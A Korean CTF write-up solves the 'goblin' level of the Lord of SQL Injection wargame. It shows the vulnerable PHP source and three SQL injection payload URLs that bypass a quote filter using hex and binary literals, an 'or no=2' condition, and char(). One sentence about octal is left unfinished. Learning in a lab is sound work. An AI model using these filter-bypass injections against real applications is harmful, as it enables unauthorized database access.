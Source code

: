 # 3번문제 goblin

이번에는 서버가 어려워졌다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```
이제 '와 "을 sql문에서 입력할 수 없게 막은 것인데,  
그래서 id='admin' 과 같이 파라미터를 보낼 수 없게됬다.

## 방법 1. id에 다른 진수를 사용하기

여기서 쓸 수 있는 것은, 스트링 우회법이다.  
db마다 다른데, 여기선 0x로 문자들을 16진수로 표기해도 문자열로 해석하는 점을 이용해서,

admin 을 0x61646d696e 으로 입력해준다.
(16진수로 텍스트를 변환하는 것은 https://www.online-toolz.com/langs/ko/tool-ko-text-hex-convertor.html 이 사이트를 이용했다.)

```
https://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=0%20or%20id=0x61646d696e
query : select id from prob_goblin where id='guest' and no=0 or id=0x61646d696e
```
이렇게 해주면 뚫리는 것을 볼 수 있다.

마찬가지로 2진수로 표기해도 문자열로 해석된다.
```
https://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=0%20or%20id=0b0110000101100100011011010110100101101110
query : select id from prob_goblin where id='guest' and no=0 or id=0b0110000101100100011011010110100101101110
```

대신에 8진수는 

# 방법 2. no 값 넣기

아까 no=1 일때, guest가 true 가 됬으니, no값을 조작해서 id가 admin 이 나오게 하면 된다.
```
https://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=0%20or%20no=2
query : select id from prob_goblin where id='guest' and no=0 or no=2
```

# 방법 3. id에 char() 내장 함수 사용하기

16진수로 값을 변환해서 넣지 않아도, mysql에선 char라는 내장함수로 10진수를 아스키코드로 변환하는 것을 활용할 수 있다.
```
https://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=0%20or%20id=char(97,%20100,%20109,%20105,%20110)
query : select id from prob_goblin where id='guest' and no=0 or id=char(97, 100, 109, 105, 110)
```
